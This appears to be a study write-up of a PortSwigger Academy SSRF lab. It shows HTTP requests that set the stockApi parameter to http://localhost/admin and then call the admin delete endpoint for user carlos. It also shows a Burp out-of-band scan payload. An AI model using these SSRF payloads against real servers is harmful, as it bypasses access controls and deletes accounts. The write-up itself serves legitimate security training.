

# [Lab: Basic SSRF against the local server](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)

## Lab

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

## Context

a shopping application that lets the user view whether an item is in stock in a particular store. To provide the stock information, the application must query various back-end REST APIs, dependent on the product and store in question. The function is implemented by passing the URL to the relevant back-end API endpoint via a front-end HTTP request. So when a user views the stock status for an item, their browser makes a request like this:

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

This causes the server to make a request to the specified URL, retrieve the stock status, and return this to the user.

In this situation, an attacker can modify the request to specify a URL local to the server itself. For example:

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

Here, the server will fetch the contents of the `/admin` URL and return it to the user.

Now of course, the attacker could just visit the `/admin` URL directly. But the administrative functionality is ordinarily accessible only to suitable authenticated users. So an attacker who simply visits the URL directly won't see anything of interest. However, when the request to the `/admin` URL comes from the local machine itself, the normal access controls are bypassed. The application grants full access to the administrative functionality, because the request appears to originate from a trusted location.

## Scan

- Burpsuite scanner: detected `Out-of-band resource load (HTTP)`
  - body: `stockApi=http://knbwyjlwtx7jmf2crvupaw6roiuci26vunhd52.oastify.com/product/stock/check?productId=2&storeId=1`

## Exploit

1. burp's repeater:

    - original:

        ```http
        POST /product/stock HTTP/1.1
        Host: id.web-security-academy.net

        stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D2 
        ```

    - modified:

        ```http
        POST /product/stock HTTP/1.1
        Host: id.web-security-academy.net
        ...

        stockApi=http%3a//localhost/admin
        ```

    - result:

        

2. solve lab:

    ```http
    POST /product/stock HTTP/1.1
    Host: id.web-security-academy.net
    ...

    stockApi=http%3a//localhost/admin/delete?username=carlos
    ```
